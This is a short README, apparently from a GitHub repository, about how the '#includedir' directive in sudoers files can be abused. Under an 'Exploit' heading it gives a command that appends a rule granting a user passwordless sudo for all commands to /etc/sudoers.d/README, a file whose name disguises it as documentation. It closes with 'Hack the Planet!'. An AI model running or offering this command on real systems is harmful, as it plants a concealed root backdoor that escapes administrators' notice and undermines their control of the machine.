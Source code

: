 Advantage of "#include" and README file in sudoers architecture!
======================

"*...It is possible to include other sudoers files from within the sudoers file currently being parsed using the #include and #includedir directives...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=tkwEn7q0Cc0" target="_blank"><img src="http://img.youtube.com/vi/tkwEn7q0Cc0/0.jpg" alt='Pound sign "trick" with #includedir sudoers file' width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

sudo su -c "echo '<user> ALL = NOPASSWD: ALL' >> /etc/sudoers.d/README"

```

Keep your eyes open, sometimes pound sign does not mean comment! Hack the Planet!

